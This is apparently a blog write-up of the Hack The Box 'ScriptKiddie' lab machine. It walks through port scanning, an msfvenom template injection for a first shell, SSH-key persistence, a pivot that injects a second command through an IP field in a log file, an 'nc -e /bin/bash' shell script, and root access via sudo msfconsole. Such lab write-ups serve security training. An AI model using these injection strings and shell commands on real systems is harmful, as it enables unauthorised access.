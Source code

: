 ```yaml
---
title: "HTB - ScriptKiddie"
date: 2021-06-10
draft: true
categories: ["hacking", "write-ups"]
tags: [HTB]
featuredImage: "/images/2021/06/SK_Logo.png"
---
```

## Intro

## Target
[HTB - ScriptKiddie](https://app.hackthebox.eu/machines/314)

## Recon
 Initial recon tells us the box is running linux, and that's about it!

## Enum
 During the enum phase

```text
sudo nmap -sC -sV -oA scans/fast $target_ip
```
```text
# Nmap 7.91 scan initiated Mon May 17 15:00:50 2021 as: nmap -sC -sV -oA scans/fast $target_ip
Nmap scan report for $target_ip
Host is up (0.037s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May 17 15:00:58 2021 -- 1 IP address (1 host up) scanned in 8.98 second
```

From this we discover an `SSH` service and a `Python webserver` on port 5000. It also confirms we are facing a Linux box.

Manually browsing to the website, we find that there are 3 tools : `nmap`, `searchsploit` anf `msfvenom`. After a few tries with `ffuf`, and `gobuster`, we couldn't find anything interesting.

However, after a quick search, `msfvenom` might be [vulnerable](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/).

## Exploitation
Let's test our theory and see if we can get a shell.

### Getting Initial Shell
In order to do so, we will fire up `MetaSploit` and generate a payload (we could also [download](https://www.exploit-db.com/exploits/49491) a payload and slightly modify it).

We then upload the payload as an Android template and before submitting it, let's not forget to start ar listener like so : `nc -nlvp 9001` (or your usual port). Let's, now, submit the request, and you should get a shell back as use kid. From here, I like to generate an ssh key and add it to the `.ssh/authorized_keys` for easier access. 

Once this is done, I have a proper shell and way to come back easily.

Let's grab `user`'s flag:

![User Flag](/images/2021/06/SK_User_Flag.png)

### Pivoting
Now that we are kid user, we notice that there is also a pwn user that is running a script periodically. Even more interestingly, it uses a file owned by kid as input.

The script in question is located at `/home/pwn/scanlosers.sh`  and looks like below:

```text
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

After a quick look at the script, we notice that it is reads the the file `/home/kid/logs/hackers`, search for the third field on the line, and run an `nmap` scan against this field.

Now we can trick this script into running a custom command after the `nmap`'s one.

After a few trial and errors, I arrived to the following line of code :

`echo "1 2 127.0.0.1';/home/kid/nc.sh;date" > /home/kid/logs/hackers`

with `nc.sh` being:

```text
#!/bin/bash

/home/kid/nc -lvp 9001 -e /bin/bash
```

Don't forget to run a listener on port 9001, in order to grab the reverse shell. I would have wanted to do the "ssh trick" for easier access, but the `.ssh/authorized_keys` is owned by root... So I'll have to make it do with the temporary shell as `pwn`'s user.


### PrivEsc
Now that we are pwn, let's start by a simple `sudo -l` :

![pwn sudo](/images/2021/06/SK_pwn_sudo.png)

msfconsole can be run as root without password.... let's do it and cat the `root`'s flag:

![Root Flag](/images/2021/06/SK_Root_Flag.png)

## Outro
This was quite a fun box, with a few extra steps for an "easy" machine. It also shows that hackers can be hacked! ;)